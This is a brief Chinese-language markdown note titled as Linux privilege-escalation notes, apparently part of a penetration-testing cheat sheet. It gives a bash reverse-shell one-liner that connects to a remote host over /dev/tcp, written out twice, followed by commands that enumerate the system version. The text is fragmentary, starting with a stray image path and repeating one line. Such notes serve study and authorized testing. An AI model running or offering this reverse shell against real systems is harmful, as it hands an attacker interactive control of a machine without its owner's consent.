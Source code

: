 ### GUN Linux 提权笔记
Shell反弹

```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

查看系统版本
`uname -a`
`cat /etc/*-release`
`cat /etc/issue`
